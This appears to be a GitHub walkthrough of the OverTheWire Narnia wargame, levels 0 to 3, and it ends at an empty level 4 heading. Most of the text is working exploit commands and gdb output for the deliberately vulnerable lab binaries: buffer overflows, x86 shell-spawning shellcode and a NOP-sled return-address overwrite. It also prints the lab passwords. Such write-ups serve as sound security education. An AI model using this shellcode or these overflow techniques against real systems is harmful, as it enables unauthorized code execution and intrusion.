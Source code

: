 # [The Narnia wargame](https://overthewire.org/wargames/narnia/)
host: [narnia.labs.overthewire.org](narnia.labs.overthewire.org)  
port: 2226  
username: narnia<level>  
start password: narnia0  
### login via ssh
```
ssh narnia<level>@narnia.labs.overthewire.org -p 2226
```

### level 0 -> 1
Simple buffer overflow
```shell
narnia0@narnia:/narnia$ (printf 'aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde';cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
**password:**  
efeidiedae

### level 1 -> 2
We need to set environment variable named "EGG" to shellcode the program will run  
I use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode to open shell as narnaia1
```shell
narnia1@narnia:/narnia$ export EGG=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
**password:**  
nairiepecu
  
### level 2 -> 3
There is unsafe copy to buffer, we can use this to set return address to run our shellcode.
First of all we need to find what offset the return address, we will use gdb with breakpoint before the ret command.
```shell
narnia2@narnia:/narnia$ gdb -q ./narnia2
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804844b <+0>:     push   %ebp
   0x0804844c <+1>:     mov    %esp,%ebp
      ...
   0x08048497 <+76>:    mov    $0x0,%eax
   0x0804849c <+81>:    leave                 <- we will put breakpoint her
   0x0804849d <+82>:    ret
End of assembler dump.
(gdb) b *0x0804849c
Breakpoint 1 at 0x804849c
(gdb) r $(python -c "print('A'*132+'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*132+'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()                         <- the four 'B' override the return address
```
Now lets create the payload, it will be in this format:  
(A series of NOP instructions(0x90)) (Shellcode) (Overridden return address)  
the return address will jump to address just before the shellcode.  
I use the [same](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode(25 bytes) as in the previous level.  
We just need to know the address before the shellcode:  
```shell
(gdb) r $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/150wx $esp
0xffffd640:     0x00000000      0xffffd6d4      0xffffd6e0      0x00000000
0xffffd650:     0x00000000      0x00000000      0xf7fc5000      0xf7ffdc0c
...
0xffffd7f0:     0x9e797a0d      0x9908446a      0x695d19dc      0x00363836
0xffffd800:     0x6e2f0000      0x696e7261      0x616e2f61      0x61696e72
0xffffd810:     0x41410032      0x41414141      0x41414141      0x41414141          <- the 'A's start somewhere here
0xffffd820:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd830:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd840:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd850:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd860:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd870:     0x41414141      0x41414141      0x41414141      0x50c03141          <- here the shellcode start
0xffffd880:     0x732f2f68      0x622f6868      0xe3896e69      0xe1895350
0xffffd890:     0x0bb0c289      0x424280cd
```
So, let choose 0xffffd870, now use the payload!
```shell
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print('\x90'*107 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x70\xd8\xff\xff')")
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
  
**password:**  
vaequeezee
                                                                                       
### level 3 -> 4
Their is unsafe copy from argv[1] to ifile, so we can overflow and get into ofile  
We need to give the program path that serve as somthing we want to read and also serve as payload that pushed to 'ofile' and serve as output file we can read. The path will be in this format:  
'/tmp/(some padding)/tmp/result'  
'/tmp/result' will serve as output file and '/tmp/(padding)/tmp/result' as link to password (/etc/narnia_pass/narnia4)  
Therefore the program will read all data from '/tmp/<padding>/tmp/result and insead of write it to /dev/null he will write it to '/tmp/result' and we can read it.  
I create [this](https://gist.github.com/bom2013/919a78a2dcb44689d37587bedb43be49) script in some folder inside /tmp/ and run it
```shell
narnia3@narnia:/tmp/qwert$ ./solve.sh
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/result to a safer place... (/tmp/result)
thaenohtai
(.PT narnia3@narnia:/tmp/qwert$
```
**password:**  
thaenohtai
  
### level 4 -> 5

**password:**  

